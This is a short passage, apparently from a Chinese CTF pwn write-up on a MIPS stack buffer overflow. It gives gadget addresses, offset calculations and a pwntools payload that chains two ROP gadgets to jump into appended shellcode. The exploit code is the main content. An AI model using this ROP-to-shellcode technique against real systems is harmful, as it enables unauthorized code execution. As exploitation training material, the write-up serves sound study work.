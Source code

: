 [![](assets/1705903019-7cf7a57275d274801b08aef9a3eba99c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192730-e60e06fe-b786-1.png)  
这里是吧sp+0x58给a2

[![](assets/1705903019-c49fe37de96be1224ebef2561e28de25.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192748-f04d8bda-b786-1.png)  
这里计算一下偏移

[![](assets/1705903019-6ebdee6e09b3924b60c6e9c5c231cd10.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192755-f4eafe84-b786-1.png)  
溢出位置： #0x0043965C | addiu $a2,$sp,0x68+var\_10 | jalr $fp  
fp位置： #0x0040ABB8 | move $t9,$a2 | jalr $a2  
然后计算a2距离buf的偏移为0xa0  
所以就直接写shellcode

```plain
pl='a'*0x40+p32(0x0040ABB8)+p32(0x0043965C)
pl=pl.ljust(0xa0,'a')+shellcode
sa('Congratulation!\n',pl)
itr()
```

